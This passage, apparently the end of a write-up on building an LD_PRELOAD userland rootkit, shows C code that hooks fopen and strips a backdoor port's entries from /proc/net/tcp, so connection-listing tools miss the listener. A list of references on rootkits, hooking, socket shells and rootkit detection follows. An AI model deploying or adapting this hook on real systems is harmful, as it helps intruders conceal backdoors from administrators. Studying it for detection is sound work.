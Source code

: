 ```c

FILE *(*orig_fopen)(const char *pathname, const char *mode);
FILE *fopen(const char *pathname, const char *mode)
{
	orig_fopen = dlsym(RTLD_NEXT, "fopen");

	char *ptr_tcp = strstr(pathname, "/proc/net/tcp");

	FILE *fp;

	if (ptr_tcp != NULL)
	{
		char line[256];
		FILE *temp = tmpfile();
		fp = orig_fopen(pathname, mode);
		while (fgets(line, sizeof(line), fp))
		{
			char *listener = strstr(line, KEY_PORT);
			if (listener != NULL)
			{
				continue;
			}
			else
			{
				fputs(line, temp);
			}
		}
		return temp;

	}

	fp = orig_fopen(pathname, mode);
	return fp;
}
```

## References
I apologize if I left anyone off, writing this thing was a blur, I had so many tabs open that they barely could fit favicons on them. 

+ [/bin/ls explanation](https://gist.github.com/amitsaha/8169242)
+ [lsof guide](https://danielmiessler.com/study/lsof/)
+ [ephermeral port allocation](https://idea.popcount.org/2014-04-03-bind-before-connect/)
+ [Jynx explainer](http://www.infosecisland.com/blogview/22440-Analyzing-Jynx-and-LDPRELOAD-Based-Rootkits.html)
+ [userland LD_PRELOAD rootkits](https://ketansingh.net/overview-on-linux-userland-rootkits/)
+ [hooking shared library functions](https://blog.netspi.com/function-hooking-part-i-hooking-shared-library-function-calls-in-linux/)
+ [socket programming in C](http://www.cs.rpi.edu/~moorthy/Courses/os98/Pgms/socket.html)
+ [@epi052 socket programming recommendation](http://www.cs.rpi.edu/~moorthy/Courses/os98/Pgms/socket.html)
+ [Jynx2 source code](https://github.com/chokepoint/Jynx2/blob/master/jynx2.c)
+ [ipv6 socket programming](https://deceiveyour.team/2018/08/26/tcp-ipv4-and-ipv6-reverse-shell/)
+ [iamrastating socket programming](https://rastating.github.io/creating-a-bind-shell-tcp-shellcode/)
+ [detecting and analyzing LD_PRELOAD rootkits](https://volatility-labs.blogspot.com/2012/09/movp-24-analyzing-jynx-rootkit-and.html)
